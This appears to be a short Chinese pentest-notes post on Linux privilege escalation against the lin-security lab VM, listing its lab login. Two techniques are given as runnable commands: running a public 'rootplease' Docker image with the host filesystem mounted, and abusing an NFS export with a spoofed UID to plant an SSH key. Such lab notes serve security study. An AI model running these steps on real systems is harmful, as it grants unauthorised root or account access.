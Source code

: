 ```yaml
---
title: linux提权-msf提权插件编写中
categories:
- liunx
tags:
- liunx
---
```

linux提权-msf提权插件编写中

bob / secret

### docker组提权

```
docker run -v /:/linsecurity -i -t chrisfosterelli/rootplease
```
### nsf提权
```
查看并挂载目录
showmount -e 192.168.1.140
mount 192.168.1.140:/home/peter /mnt/peter

查看权限
ls -la /mnt/peter
touch this-wont-work

添加用户组和用户
groupadd --gid 1005 peter
useradd --uid 1001 --gid 1005 peter
su peter
pwd
touch this-will-work
ls -la

生成私钥
ssh-keygen
mkdir .ssh
ls -la /home/peter/.ssh
cat /home/peter/.ssh/id_rsa.pub > .ssh/authorized_keys

获得普通用户权限
ssh peter@192.168.1.140
whoami;id
```
### 参考资料
- https://s1gh.sh/lin-security/

- https://book.hacktricks.xyz/pentesting-methodology


